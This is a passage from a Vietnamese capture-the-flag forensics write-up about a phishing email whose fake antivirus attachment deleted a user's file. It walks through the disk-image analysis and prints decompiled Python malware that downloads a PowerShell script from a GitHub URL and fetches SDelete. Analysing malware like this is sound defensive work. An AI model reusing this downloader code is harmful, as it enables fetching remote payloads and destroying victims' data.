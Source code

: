 # Mô tả

Một nữ nhiên viên văn phòng ở công ty V đã nhận được một bức thư. Sau khi mở bức thư đó cùng với một tệp đính kèm, máy của cô nhân viên này đã có một số hoạt động bất thường cùng với đó là một file tài liệu rất quan trọng của cô ấy đã biến mất. Là một nhân viên phòng SOC, hãy giúp cô ấy tìm ra nguyên nhân và khôi phục lại file quan trọng đó. **Format flag: flag{the_flag}**

 **Related Resource:** File upload: https://drive.google.com/file/d/1ySNNOBafCzmj8evsp1QAB8tDtnKEV6q2/view?usp=sharing

# Phân tích

Bài cho 1 file ad1, load nó vào trong ftk imager. Thấy có 2 thư mục quan trọng là `Users\tamin` và `winevt\Logs (Chứa các file windows event logs .evtx)` 

Bởi vì mô tả nhắc đến việc nhân viên nhận được một bức thư nên có thể đoán được rằng đã tải một file độc hại về làm mất tài liệu cho nên ta kiểm tra thư mục của người dùng `tamin` trước

Tìm một lúc thì thấy trong `tamin\Documents\Outlook` có một file `VCS antivirus.eml`, extract ra xem nó là gì

![image](./pcs/fileeml.PNG)

Trong file có chứa một file .zip khác, khi lưu về và xuất ra thì ra một file `vcs_antivirus.exe` đưa lên [virustotal](https://www.virustotal.com/gui/file/ea5d1e2d0ddcc874cbfe969d7bf49e58f980bce01501f4e8a53107a0dacff736) thì có rất nhiều red flag 

Đưa file này vào DiE thì biết nó được code bằng python nên việc decompile không quá khó, dùng `pyinstractor.py` để lấy file python byte code `.pyc` ra rồi decompile về code python gốc ta được 

```py
import os
import requests
import subprocess
import zipfile
current_dir = os.path.dirname(os.path.abspath(__file__))
ps_script_url = 'https://raw.githubusercontent.com/TMQrX/temp/master/Qwertyu.ps1'
ps_script_path = os.path.join(current_dir, 'ps.ps1')
sdelete_zip_url = 'https://download.sysinternals.com/files/SDelete.zip'
sdelete_zip_path = os.path.join(current_dir, 'SDelete.zip')
sdelete_exe_path = os.path.join(current_dir, 'sdelete.exe')
flag_file_path = 'C:\\flag.txt'
temp_encrypt_folder = os.path.join(os.getenv('TEMP'), 'encrypt')

def download_file(url, destination):
    response = requests.get(url)
    with open(destination, 'wb') as file:
        file.write(response.content)

def extract_sdelete(zip_path, extract_to):
    with zipfile.ZipFile(zip_path, 'r') as zip_ref:
        zip_ref.extractall(extract_to)
```